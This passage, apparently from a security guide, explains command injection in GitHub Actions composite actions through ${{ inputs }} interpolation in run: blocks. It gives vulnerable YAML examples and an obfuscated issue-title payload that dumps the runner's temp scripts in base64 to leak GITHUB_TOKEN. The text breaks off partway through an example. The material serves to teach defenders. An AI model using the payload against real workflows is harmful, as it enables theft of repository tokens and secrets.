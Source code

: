 ### Command injection

Composite actions allow defining [inputs](https://docs.github.com/en/actions/creating-actions/metadata-syntax-for-github-actions#inputs) that can be used during execution:

```yml
# fake-actions/composite-action
name: 'Hello World'
description: 'Greet someone'

inputs:
  who-to-greet:
    description: 'Who to greet'
    required: true

runs:
  using: "composite"
  steps:
    - run: echo Hello ${{ inputs.who-to-greet }}.
      shell: bash
```

Handling inputs is performed using variable interpolation `${{ ... }}`. Therefore, if the inputs are embedded directly into the [run:](https://docs.github.com/en/actions/using-workflows/workflow-syntax-for-github-actions#jobsjob_idstepsrun) block, an attacker can inject arbitrary commands:

```yml
on: workflow_dispatch

jobs:
  test:
    runs-on: ubuntu-latest
    name: A job to say hello
    steps:
      - uses: actions/checkout@v2
      - uses: fake-actions/composite-action@v1
        with:
          # this input will be injected to the run: block in fake-actions/composite-action
          # it will look in the following way:
          #
          # runs:
          #   using: "composite"
          #   steps:
          #     - run: echo Hello World!; echo hop.
          #       shell: bash
          who-to-greet: 'World!; echo hop'
```

As a result, it is possible at least extract secrets from environment variables and generated shell scripts. For instance, in the snippet below an attacker can open an issue with title `";{cat,/home/runner/work/_temp/$({xxd,-r,-p}<<<2a)}|{base64,-w0};#` to dump `GITHUB_TOKEN`:

```yml
# Vulnerable third-party action:
# fake-actions/update-issues
inputs:
  issue_number:
    description: 'Issue number'
    required: true
  issue_title:
    description: 'Issue title'
    required: true
  github_token:
    description: 'GitHub API token'
    required: false
    default: ${{ github.token }}

```